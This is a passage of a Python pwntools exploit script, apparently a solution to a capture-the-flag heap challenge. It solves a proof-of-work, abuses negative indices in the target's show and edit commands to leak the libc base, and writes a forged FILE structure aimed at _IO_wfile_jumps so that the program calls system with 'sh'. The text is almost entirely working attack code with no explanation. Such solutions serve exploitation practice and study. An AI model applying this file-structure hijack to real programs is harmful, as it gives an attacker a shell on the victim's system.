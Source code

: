 ```php
        s = md5(cur.encode())
        if s.hexdigest().startswith(prefixes):
            return True
        return False
    proof = mbruteforce(brute,string.ascii_letters, length=4, method='fixed')
    p.sendlineafter(b":", proof)

elf=ELF('./11')
# libc=ELF('./libc-2.23.so')
# libc=ELF('./libc-2.27.so')
# libc=ELF('./libc-2.31.so')
libc=ELF('./libc.so.6')
# libc=ELF('./libc.so')

# rop = ROP(libc)
# rdi=(rop.find_gadget(['pop rdi', 'ret']))[0]
# rsi=(rop.find_gadget(['pop rsi', 'ret']))[0]

def add(idx,size,cont):
    sl(str(0x114))
    sl(str(idx))
    sl(str(size))
    sl(cont)

def edit(idx,cont):
    sl(str(0x810))
    sl(str(idx))
    sl(cont)

def show(idx):
    sl(str(0x514))
    sl(str(idx))

def dele(idx):
    sl(str(0x1919))
    sl(str(idx))
#0x4040A0
#0x400620
show(-0x3a8)
libc_base=uu64(r(6))
r(1)
leak("libc_base")
pl=flat(libc_base,libc_base)
edit(-0x5b7,pl)
file_addr=libc_base
libc_base=libc_base-libc.sym['_IO_2_1_stdout_']

lock=0x4040A0+0x500
file_offset=0
_IO_wfile_jumps=libc_sym('_IO_wfile_jumps')
fake_file=flat({
        file_offset+0x00:b'  sh;',
        file_offset+0x28:1,
    file_offset+0x68:libc_sym('system'),
    file_offset+0x88:lock,
    file_offset+0xa0:file_addr,
    file_offset+0xd8:_IO_wfile_jumps-0x20,
    file_offset+0xe0:file_addr,
},filler='\x00')

edit(-4,fake_file)

sl(str(114514))
```
